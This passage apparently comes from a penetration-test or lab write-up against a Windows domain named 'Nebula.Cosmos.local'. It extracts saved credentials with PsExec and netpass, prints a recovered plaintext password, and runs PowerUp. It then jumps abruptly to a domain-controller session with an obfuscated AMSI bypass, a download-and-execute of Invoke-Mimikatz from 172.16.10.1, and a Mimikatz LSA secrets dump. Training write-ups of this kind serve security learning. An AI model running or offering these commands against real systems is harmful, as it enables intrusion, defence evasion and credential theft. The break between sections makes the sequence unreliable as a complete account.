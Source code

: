 extracting credentials from scheduled tasks is possible because Credential Manager stores the credentials on disk and protected by DPAPI. a program running as that specific user will be able to access credentials in this store.

using `PSExec` to run `netpass`, it's possible to retrieve the saved passwords. in this case, it's possible to extract the credentials for the `devmanager` account.

```sh
.\PSExec64.exe -i -s -d C:\Windows\system32\Tasks\netpass.exe
```

```sh
PsExec could not start C:\Windows\System32\Tasks\netpass.exe on DEVSRV:
The system cannot find the file specified.
PS C:\Windows\system32\Tasks> ls

    Directory: C:\Windows\system32\Tasks

Mode         LastWriteTime         Length Name
----         -------------         ------ ----
d-----       1/24/2024   9:33 PM          Microsoft
-a----       5/18/2024   5:29 AM    2530060 Invoke-Mimikatz.ps1
-a----       4/14/2024   2:22 AM     138752 netpass.exe
------       5/25/2024   4:40 PM    1078672 PsExec64.exe
-a----      10/22/2023   4:41 AM       3518 SQLServerChecker

PS C:\Windows\system32\Tasks> .\PsExec64.exe -i -s -d 'C:\Windows\System32\Tasks\netpass.exe'

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2024 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\System32\Tasks\netpass.exe started on DEVSRV with process ID 4872.
PS C:\Windows\system32\Tasks>
```

a `netpass` window opens up and reveals the credentials:

```sh
NEBULA\devmanager:F0rRunning$cheduledTasks!
```


After gaining access via RDP to `Prodsrv.Nebula.Cosmos.local` as `devmanager`, i found that this account lacked local admin rights. privileges can be elevated by using `PowerUp`:

```sh
.\powerup.ps1
Invoke-AllChecks
```

```sh
PS C:\Users\devmanager> cd .\Desktop
PS C:\Users\devmanager\Desktop> ls

    Directory: C:\Users\devmanager\Desktop

Mode         LastWriteTime         Length Name
----         -------------         ------ ----
-a----       6/23/2024   7:45 AM    562841 PowerUp.ps1

PS C:\Users\devmanager\Desktop> . .\PowerUp.ps1
PS C:\Users\devmanager\Desktop> Invoke-AllChecks

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...

```

[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> whoami
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> hostname
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents>
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'